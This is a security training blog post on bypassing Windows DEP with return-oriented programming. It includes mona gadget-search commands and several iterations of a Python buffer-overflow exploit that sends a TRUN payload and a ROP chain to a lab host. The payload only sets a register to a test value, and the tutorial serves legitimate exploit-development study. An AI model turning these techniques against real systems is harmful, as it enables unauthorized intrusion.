








:slug: bypassing-dep/
:date: 2020-08-24
:category: attacks
:subtitle: Running instructions by reference
:tags: osee, training, exploit
:image: cover.png
:alt: Photo by Michael Dziedzic on Unsplash
:description: This post will show how bypass the Data Execution Prevention security mechanism using Return-Oriented Programming.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/pM9pkc9J918

= Bypassing DEP with ROP

In the link:../understanding-dep/[past blog entry], we made an introduction
to what `DEP` (Data Execution Protection) is and how it affected common
buffer overflow exploits.

In this post, we will show a way to bypass `DEP` using Return-Oriented
Programming or `ROP`.

== Return-Oriented Programming (ROP)

When we are writing an exploit to a buffer overflow vulnerability on an
application without `DEP`, we overwrite the saved instruction pointer on the
stack frame of the affected function with a pointer to something like
`JMP ESP` (or any other register pointing to our shellcode) and then put
a shellcode on the stack which is finally executed when the `JMP ESP` is
performed.

When we perform a `JMP ESP` (or any other general purpose register),
the program expects to find *instructions* on the address pointed to `ESP`.
With `DEP`, we can't execute instructions on the stack,
but we still control the execution flow, and that is because we write on
the `Saved EIP` of the stack frame.

But what would happen if, instead of overwriting the `Saved EIP` with
a pointer to `JMP ESP`, we overwrite it with a pointer to a `RETN`
instruction? The `RETN` instruction is commonly used in the function epilogues
and will make one thing: Pop the value pointed by `ESP` and use it as the
next instruction pointer or `EIP`. In other words, `RETN` expects to find
on the address pointed to `ESP`, a *pointer to a instruction*, not an
*instruction* itself.

As we control the execution flow and also can write on the stack, we can
do whatever we want. Let's find a `RETN` instruction first:

[source,bash]
----
!mona find -type instr -s "retn" -p 10 -o
----

This will tell `mona` to find 10 `RETN` instrunctions. The result is:

Let's take the first one at `62501022` and update the exploit of the
link:../understanding-dep/[previous post]. This time we want to make `EAX`
have the value `0xdeadbeef`:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And see what happens:

Here's a detail of what happened:

. We put a breakpoint at the address of the `RETN` instruction.
. We executed the exploit.
. The breakpoint was hit.
. When it hits, look carefully at the value pointed by `ESP`: `EE05C031`
. That value is part of the shellcode injected:
.. `xor eax,eax` -> `\x31\xc0`
.. `add eax,0xdeadbeee` -> `\x05\xee\xbe\xad\xde` (the first two bytes)
. When the `RETN` instruction is executed that value `EE05C031` is stored on
`EIP`.

What it means is that we can replace the `EE05C031` bytes with a pointer that
will become the next instruction to be executed!

In our exploit, we want to make `EAX` = `0xdeadbeef` using three
instructions: `xor eax,eax`, `add eax,0xdeadbeee` and `inc eax`. Let's check
if we can find a pointer to the first:

We could find one at `62501162` that points to `xor eax,eax`.
Let's update our exploit and place that address instead of
the `xor eax,eax` instruction:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 62501162  |.  31C0                  XOR EAX,EAX
    struct.pack('<L', 0x62501162) +
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

Wonderful! Here's what happened:

. The pointer to the `RETN` instruction was reached.
. When the `RETN` ran, it retrieved the value pointed by `ESP` and updated
`EIP` with that.
. In our case, that value was a pointer to a `xor eax,eax` instruction.
. With that, the `xor eax,eax` was successfully executed! We bypassed DEP!

However, there's a problem with that. If you look again at the animation,
the execution flow was diverted to the location on where the `xor eax,eax`
instruction was placed but then, we lost control.

We need to make `EAX = 0xdeadbeee`. There are several ways to do that. We
tried with `xor eax,eax -> add eax,0xdeadbeee` but another way to do it
is to place the value `0xdeadbeee` on top of the stack and then perform a
`pop eax`. We also need regain control of the execution flow. To do that,
we need to to return back to the stack, so we can execute the last
instruction on our shellcode `inc eax` and thus, make `EAX = 0xdeadbeef`.
That means that we need to find an address to a `pop eax` instruction followed
by a `retn`.

Bingo! We found it at `625011B4`. Now you see why this is called
Return-Oriented Programming? It is because we need to always return back to
the stack to fetch the next pointer to our next desired instruction.
For the record, any instruction or set of instructions
followed by a `retn` is called a *Gadget* in `ROP` terms.

Our `pop eax # retn` gadget rely on the stack having the value `0xdeadbeee`
on the top. Let's update our exploit with that:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

Beautiful! We were able to make `EAX = 0xdeadbeee` using `ROP`. Now, the final
step is to find a `inc eax` pointer to make `EAX = 0xdeadbeef`.

We found one at `00402139`. As this is the last instruction of our shellcode,
the NULL byte won't affect the exploit. Let's update the code:

[source,python]
----
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    # 00402139   .  40                    INC EAX
    struct.pack('<L', 0x00402139) +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

Success! We were able to make `EAX = 0xdeadbeef` without executing a single
instruction on the stack! We have bypassed `DEP`!

== Using mona to find gadgets

You may notice by now that finding useful gadgets could become something
really tedious. Fortunately for us `mona` has made this task easy.
You just need to simply issue the following:

[source,bash]
----
!mona rop
----

And wait for `mona` do the hard work:

image::mona1.gif[Mona ROP]

With that, `mona` will find usable gadgets on the execution environment.
A file called `rop.txt` is placed on the `mona` directory of the debuggee
application containing all the gadgets found. `mona` also generates
proposal of something called `ROP chains`, which is nothing but a set of
ROP gadgets chained together to perform something more complex. I won't spoil
the next blog entry, but ROP chains will be used later on a more
serious exploitation.

== Conclusions

In this article, we could see a way to bypass the Data Execution Protection
on a modern Windows system. However, the shellcode used here was very basic
and was only for demonstrating the fact that `DEP` can be bypassed.
We will use ROP to create something more complex in the next post.
